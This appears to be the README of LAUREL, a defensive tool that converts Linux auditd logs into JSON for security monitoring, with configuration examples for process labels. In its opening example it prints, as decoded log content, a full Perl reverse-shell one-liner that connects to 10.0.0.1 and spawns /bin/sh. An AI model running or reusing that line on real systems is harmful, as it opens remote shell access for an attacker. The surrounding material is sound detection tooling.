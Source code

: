 ![logo](laurel.svg)
# Linux Audit – Usable, Robust, Easy Logging

[![Build Status](https://github.com/threathunters-io/laurel/actions/workflows/build.yml/badge.svg)](https://github.com/threathunters-io/laurel/actions/workflows/build.yml)

LAUREL is an event post-processing plugin for _auditd(8)_ to improve its usability in modern security monitoring setups.

## Why?

TLDR: Instead of audit events that look like this…
```
type=EXECVE msg=audit(1626611363.720:348501): argc=3 a0="perl" a1="-e" a2=75736520536F636B65743B24693D2231302E302E302E31223B24703D313233343B736F636B65742…
```
…turn them into JSON logs where the mess that your pen testers/red teamers/attackers are trying to make becomes apparent at first glance:
```
{ … "EXECVE":{ "argc": 3,"ARGV": ["perl", "-e", "use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};"]}, …}
```
This happens at the source. The generated event even contains useful information about the spawning process:
```
"PARENT_INFO":{"ARGV":["bash"],"launch_time":1626611323.973,"ppid":3190631}
```

## Description

Logs produced by the Linux Audit subsystem and _auditd(8)_ contain information that can be very useful in a SIEM context (if a useful rule set has been configured). However, the format is not well-suited for at-scale analysis: Events are usually split across different lines that have to be merged using a message identifier. Files and program executions are logged via `PATH` and `EXECVE` elements, but a limited character set for strings causes many of those entries to be hex-encoded. For a more detailed discussion, see [Practical _auditd(8)_ problems](practical-auditd-problems.md).

_LAUREL_ solves these problems by consuming audit events, parsing and transforming them into more data and writing them out as a JSON-based log format, while keeping all information intact that was part of the original audit log. It does not replace _auditd(8)_ as the consumer of audit messages from the kernel. Instead, it uses the _audisp_ ("audit dispatch") interface to receive messages via _auditd(8)_. Therefore, it can peacefully coexist with other consumers of audit events (e.g. some EDR products).

Refer to [JSON-based log format](json-format.md) for a description of the log format.

We developed this tool because we were not content with feature sets and performance characteristics of existing projects and products. Please refer to [Performance](performance.md) for details.

## A word about audit rules

A good starting point for an audit ruleset is <https://github.com/Neo23x0/auditd>, but generally speaking, any ruleset will do. _LAUREL_ will currently only work as designed if _End Of Event_ record are not suppressed, so rules like

> `-a always,exclude -F msgtype=EOE`

should be removed.

## Events with context

Every event that is caused by a syscall or filesystem rule is annotated with information about the parent of the process that caused the event. If available, `id` points to the message corresponding to the last `execve` syscall for this process:

``` json
"PARENT_INFO": {
  "ID": "1643635026.276:327308",
  "comm": "sh",
  "exe": "/usr/bin/dash",
  "ARGV": [
    "sh",
    "-c",
    "whoami"
  ],
  "ppid": 1532
}
```

## Adding more context: Keys and process labels

Audit events can contain a key, a short string that can be used to filter events. _LAUREL_ can be configured to recognize such keys and add them as keys to the process that caused the event. These labels can also be propagated to child processes. This is useful to avoid expensive JOIN-like operations in log analysis to filter out harmless events.

Consider the following rule that set keys for _apt_ and _dpkg_ invocations:
```
-w /usr/bin/apt-get -p x -k software_mgmt
```
Let's configure _LAUREL_ to turn the `software_mgmt` key into a process label that is propagated to child processes:
```
[label-process]

label-keys = [ "software_mgmt" ]
propagate-labels = [ "software_mgmt" ]
```
Together with a ruleset that logs _execve(2)_ and variants, this will cause every event directly caused by `apt-get` and its subprocesses to be labelled `software_mgmt`.

For example, running `sudo apt-get update` on a Debian/bullseye system with a few sources configured, the following subprocesses labelled `software_gmt` can be observed in _LAUREL's_ audit log:

- `apt-get update`
- `/usr/bin/dpkg --print-foreign-architectures`
- `/usr/lib/apt/methods/http`
- `/usr/lib/apt/methods/https`
- `/usr/lib/apt/methods/https`
- `/usr/lib/apt/methods/http`
- `/usr/lib/apt/methods/gpgv`
- `/usr/lib/apt/methods/gpgv`
- `/usr/bin/dpkg --print-foreign-architectures`
- `/usr/bin/dpkg --print-foreign-architectures`

This sort of tracking also works for package installation or removal. If some package's post-installation script is behaving suspiciously, a SIEM analyst will be able to make the connection to the software installation process by inspecting the single event.

## Installation

See [INSTALL.md](INSTALL.md).

## License

GNU General Public License, version 3

## Authors

- Hilko Bengen <<bengen@hilluzination.de>>
- Sergej Schmidt <<sergej@msgpeek.net>>

The logo was created by Birgit Meyer <<hello@biggi.io>>.

